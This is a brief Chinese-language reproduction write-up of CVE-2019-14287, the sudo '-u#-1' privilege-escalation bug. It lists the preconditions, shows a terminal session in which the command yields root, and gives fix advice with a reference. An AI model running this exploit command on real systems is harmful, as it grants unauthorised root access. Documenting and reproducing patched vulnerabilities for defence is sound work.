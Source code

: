 # [漏洞复现]CVE-2019-14287 sudo提权漏洞
### 漏洞描述
2019年10月14日，CVE官方发布了CVE-2019-14287的漏洞预警。通过特定payload，用户可提升至root权限。

**利用前提**
1. sudo -v < 1.8.28
2. 知道当前用户的密码
3. 当前用户存在于sudo权限列表
### 漏洞复现

```shell
mark@mark-Pc:~$ id
uid=1000(mark) gid=1000(mark) 组=1000(mark),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
mark@mark-Pc:~$ sudo -u#-1 id
[sudo] mark 的密码： 
uid=0(root) gid=1000(mark) 组=1000(mark)
```
### 修复建议
1. 升级sudo到1.8.28版本
2. 做好sudo用户列表管理

**参考**

https://www.sudo.ws/alerts/minus_1_uid.html